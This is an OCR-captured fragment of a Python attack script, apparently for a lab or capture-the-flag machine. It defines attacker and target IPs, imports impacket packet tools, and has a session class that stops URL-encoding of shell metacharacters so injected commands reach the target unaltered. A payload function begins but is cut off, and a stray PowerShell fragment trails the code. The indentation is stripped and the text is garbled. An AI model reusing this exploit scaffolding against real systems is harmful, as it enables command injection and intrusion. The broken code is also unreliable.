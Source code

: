 ```python

#

# > DECODER (to get user decoder)

#

# > ADMIN (to get user admin)

# -----------------------------------------------------------------------------

from __future__ import print_function

import shlex, tqdm

import os, sys, time

import base64, binascii, hashlib, uuid

import select, socket, threading

import requests, urllib

try:

from impacket import ImpactDecoder

from impacket import ImpactPacket

except ImportError:

print('You need to install Python Impacket library first')

sys.exit(255)

LHOST="10.10.15.43"

RHOST="10.10.10.57"

RPORT=62696

BUFFER_SIZE=110

INITIAL_UID = uuid.uuid4().hex[0:8]

DECODER_UID = uuid.uuid4().hex[0:8]

class NoQuotedSession(requests.Session):

def send(self, *a, **kw):

a[0].url = a[0].url.replace(urllib.quote(","), ",").replace(urllib.quote("\""), "\"").replace(urllib.quote(";"), ";").replace(urllib.quote("}"), "}").replace(urllib.quote("{"), "{").replace(urllib.quote(">"), ">")

return requests.Session.send(self, *a, **kw)

def payload(lhost, uid):

```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"